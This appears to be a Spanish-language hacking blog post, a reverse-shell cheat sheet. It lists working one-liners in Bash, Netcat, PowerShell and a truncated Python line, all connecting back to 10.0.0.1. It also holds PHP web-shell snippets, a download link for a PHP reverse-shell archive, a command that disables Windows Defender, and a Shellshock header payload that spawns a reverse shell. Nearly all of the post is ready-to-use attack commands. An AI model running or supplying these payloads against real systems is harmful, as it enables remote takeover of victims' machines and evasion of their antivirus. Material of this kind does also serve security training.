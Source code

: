 ```yaml
---
date: 2021-09-15T00:22:05.000Z
layout: post
comments: true
title: Reverse Shell
subtitle: 'y como obtener acceso'
description: >-
image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
optimized_image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
category: ciberseguridad
tags:
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

# Ejemplos principales:
### Bash
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Python
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
### Netcat
```bash
#Versiones actualizadas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ nc -e /bin/sh 10.0.0.1 1234

#Versiones más antiguas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### PHP
En PHP se puede ingresar un archivo malicioso que devuelva una reverse shell.

>[Descarga archivo aquí](http://www.mediafire.com/file/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz/file)

Para testear ejecución remota de comandos:

```php
<?php system($_GET[‘ls’]);?>

## <?php system($_GET[‘cmd’]);?>
```


### PowerShell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Deshabilitar Antivirus

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

### Ejemplo de uso
En burpsuite se podría ocupar en ataques como Shellshock, por ejemplo:
```bash
#Se ocupa como base un proceso como este...
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
```bash
#Acá se adapta el proceso...
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
